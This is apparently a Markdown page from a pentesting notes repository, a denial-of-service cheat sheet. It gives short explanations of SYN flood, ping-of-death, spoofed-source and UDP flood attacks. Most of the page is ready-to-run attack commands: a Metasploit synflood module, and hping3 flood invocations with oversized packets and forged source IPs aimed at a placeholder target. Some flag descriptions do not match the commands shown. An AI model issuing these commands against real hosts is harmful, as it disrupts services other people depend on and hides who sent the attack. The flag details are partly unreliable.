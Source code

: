 ## DoS cheat sheet

### SYN Flooding
SYN flooding takes advantage of a flaw with regard to how most hosts implement the TCP three-way handshake. This attack occurs when the intruder sends unlimited SYN packets (requests) to the host system. The process of transmitting such packets is faster than the system can handle. Normally, the connection establishes with the TCP three-way handshake, and the host keeps track of the partially open connections while waiting in a listening queue for response ACK packets.

#### Using Metasploit

```sh
msfconsole
use auxiliary/dos/tcp/synflood
```

### PoD attack
The attacker tries to crash, freeze, or destabilize the targeted system or service by sending malformed or oversized packets using a simple ping command.

#### Using hping3

```sh
hping3 --d 65538 -S -p 21 --flood [Target IP]
```
-d: Specifies data size.

-S: Sets the SYN flag.

-p: Specifies the destination port.

--flood: Sends a huge number of packets.

### Spoof source IP

#### Using hping3

```sh
hping3 -S [Target IP] -a [IP Spoofed]
```
-S: Sets the SYN flag.

-a: Spoofs the IP address.

-p: Specifies the destination port.

--flood: Sends a huge number of packets.


### UDP application layer flood attack

#### Using hping3

```sh
hping3 -2 -p 139 --flood [Target IP]
```
-2: Specifies the UDP mode.

-p: Specifies the destination port.

--flood: Sends a huge number of packets.


[<- Back to index](README.md)

---
## License

© 2023 [javierizquierdovera.com](https://javierizquierdovera.com)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`